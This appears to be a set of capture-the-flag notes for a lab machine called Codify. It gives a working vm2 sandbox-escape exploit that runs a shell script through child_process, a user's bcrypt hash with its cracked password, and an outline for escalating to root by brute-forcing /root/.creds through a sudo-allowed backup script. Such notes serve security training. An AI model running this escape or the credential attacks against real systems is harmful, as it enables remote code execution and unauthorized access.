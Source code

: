##Codify Notes

### Vm2 vulnerable to RCE

		
		const {VM} = require("vm2");
		const vm = new VM();

		const code = `
		err = {};
		const handler = {
		    getPrototypeOf(target) {
			(function stack() {
			    new Error().stack;
			    stack();
			})();
		    }
		};
		  
		const proxiedErr = new Proxy(err, handler);
		try {
		    throw proxiedErr;
		} catch ({constructor: c}) {
		    c.constructor('return process')().mainModule.require('child_process').execSync('payload.sh')
		}
		`

		console.log(vm.run(code));
		


### Joshua password
/var/www/content/ -> hashed password

joshua $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

cracked hash : spongebob1

### Privesc :

sudo -l -> mysql_backup.sh 

python script to bruteforce /root/.creds
